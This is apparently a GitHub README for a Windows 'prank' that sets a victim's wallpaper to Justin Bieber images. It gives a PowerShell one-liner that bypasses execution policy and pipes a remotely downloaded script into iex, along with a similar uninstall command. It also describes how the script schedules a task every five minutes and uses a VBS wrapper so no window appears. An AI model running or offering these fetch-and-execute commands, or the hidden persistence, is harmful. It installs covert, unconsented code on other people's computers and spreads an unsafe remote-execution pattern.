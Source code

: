 # Justin Wallpaper Prank

This script is a prank that will change the wallpaper of a victim's computer to Justin Bieber images.

It can be run by only running a single command in the cmd prompt.

Note: This only works on `Windows`.

For `Mac` version, please check out [this repository](https://github.com/FredericMartinez/justin-hack) from [Frederic Martinez](https://github.com/FredericMartinez).

## How to use

In the command prompt, type the following command:

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/mxcezl/Justin-Prank/master/install.ps1')|iex"

```

![install](./screenshots/install.png)

## How it works

The command above will download a powershell script from this repository and run it.

Firstly, the script will create a directory under `%userprofile%` and download Justin's image from [here](./images).

Then the script will download the [changer.ps1](./changer/changer.ps1) that is in charge of changing the wallpaper. This `changer.ps1` script will be scheduled in the task scheduler to run every 5 minutes.

The reason why we also have a [jhcaller.vbs](./changer/jhcaller.vbs) is because if we schedule a PowerShell script into the task scheduler, it will quickly show up a cmd window and disappear. This is not what we want. So we use a `vbs` script to call the `changer.ps1` script, which is a little work around :
    
```vbs
objShell.Run strCMD, 0
```

In the `jhcaller.vbs` we can see this line of code. This line will run the `changer.ps1` script in the background and won't show any pop-up.

Finally, the scheduled task is created via a [task template](./changer/taskTemplate.xml) in order to edit some configurations that are not avaible in the task scheduler CLI, such as activating the scheduled task if the laptop isn't plugged-in.

## How to remove

In the command prompt, type the following command:

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/mxcezl/Justin-Prank/master/unistall/uninstall.ps1')|iex"
```

This will remove the scheduled task and the directory that was created.

![uninstall](./screenshots/uninstall.png)

## How to contribute

If you want to contribute, please feel free to open a pull request or an issue.

## License

[MIT](./LICENSE)
